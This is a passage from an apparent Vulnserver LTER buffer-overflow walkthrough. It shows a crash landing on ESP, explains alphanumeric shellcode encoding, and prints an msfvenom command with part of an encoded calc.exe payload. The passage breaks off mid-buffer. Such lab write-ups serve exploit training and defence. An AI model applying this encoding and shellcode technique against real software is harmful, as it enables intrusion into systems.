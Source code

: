 ```c
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 jmp-esp.py                         
```

After crashing, we can see that we landed perfectly on ESP memory leading to an illegal instruction error from ESP

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-jmpesp-esp.png" style="width:40%">
</div>

So, we have successfully redirected our program flow

Next we have to point it with our shellcode

## Generating shellcode

Here comes the important part of the exploitation, 

Since this command accepts only alpha numeric characters, we can use ```shellcode encoders``` to solve this problem

We can use ```x86/alpha_mixed``` encoder to create shellcode with mixed characters of lower case and upper case characters

Additional note refered from other blog,

*There is one thing to be aware of when using this encoder however – it is a Metasploit implementation of SkyLined’s (Berend-Jan Wevers) ALPHA2 encoder, which needs to know its position in memory in order to function. By default, if you don’t provide this information, the Metasploit implementation adds its own code to determine its position in memory to the start of the encoder, and this code is unfortunately not alphanumeric compatible. To work around this, we can provide a sparsely documented command line option “BufferRegister” to msfencode to specify a register that contains the position of the shellcode in memory. In this case, that register would be ESP, which contains the start address of our shellcode in this particular exploit*

Lets generate the shellcode to pop ```calc.exe``` using msfvenom,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/exec CMD=calc.exe -b '\x00' -f python BufferRegister=ESP -e x86/alpha_mixed
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 440 (iteration=0)
x86/alpha_mixed chosen with final size 440
Payload size: 440 bytes
Final size of python file: 2145 bytes
buf =  b""
buf += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x39\x6c\x6d\x38\x6b\x32\x65\x50\x57\x70\x57\x70\x31"
buf += b"\x70\x4f\x79\x6a\x45\x76\x51\x39\x50\x63\x54\x4e\x6b"
buf += b"\x76\x30\x64\x70\x6e\x6b\x32\x72\x44\x4c\x4e\x6b\x30"
buf += b"\x52\x36\x74\x4e\x6b\x32\x52\x46\x48\x44\x4f\x78\x37"
buf += b"\x50\x4a\x35\x76\x74\x71\x69\x6f\x6e\x4c\x47\x4c\x43"
buf += b"\x51\x71\x6c\x66\x62\x56\x4c\x65\x70\x7a\x61\x7a\x6f"
buf += b"\x64\x4d\x65\x51\x39\x57\x79\x72\x4b\x42\x31\x42\x36"
buf += b"\x37\x6e\x6b\x56\x32\x56\x70\x4c\x4b\x32\x6a\x75\x6c"
buf += b"\x6c\x4b\x62\x6c\x44\x51\x30\x78\x6b\x53\x30\x48\x35"
buf += b"\x51\x4e\x31\x32\x71\x4e\x6b\x31\x49\x67\x50\x73\x31"
buf += b"\x6b\x63\x4e\x6b\x37\x39\x36\x78\x6d\x33\x77\x4a\x52"
```